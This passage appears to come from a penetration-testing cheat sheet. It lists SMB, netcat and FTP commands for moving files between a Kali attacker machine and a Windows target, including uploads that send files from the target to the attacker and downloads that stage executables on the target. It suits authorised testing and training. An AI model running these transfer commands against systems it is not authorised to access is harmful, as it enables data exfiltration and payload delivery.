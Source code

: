 ```
copy \\10.0.0.1\kali\file.exe C:\Windows\Temp\file.exe
```
### Uploading files

```
copy C:\Windows\Temp\file.exe \\10.0.0.1\kali\file.exe
```
## Netcat
### Downloading files
On Kali run :
```
nc -nvlp <PORT> < /path/to/file.exe
```
On Windosw run:
```
nc.exe -nv <IP> <PORT> > /path/to/file.exe
```
### Uploading files
On Kali run:
```
nc -nvlp <PORT> > /path/to/file.exe
```
On Windows run:
```
nc.exe -nv <IP> <PORT> < file.exe
```
## FTP
### Downloading files
Create a text file with the commands you wish to use:
```
echo open 192.168.1.78 > ftp.txt
echo binary >> ftp.txt
echo get test.txt >> ftp.txt
echo bye >> ftp.txt
```
Then execute the commands in the file with the following command:
```
ftp -A -s:ftp.txt
```
### Downloading files (Authenticated)
Create a text file with the commands you wish to use:
```
echo open 192.168.1.78 > ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin >> ftp.txt
echo GET test.exe >> ftp.txt
echo bye >> ftp.txt
```
Then execute the commands in the file with the following command:
```
ftp -v -n -s:ftp.txt
```
### Uploading files
Create a text file with the commands you wish to use:
```
echo open 192.168.1.78 > ftp.txt
echo binary >> ftp.txt
echo put test.txt >> ftp.txt
echo bye >> ftp.txt
```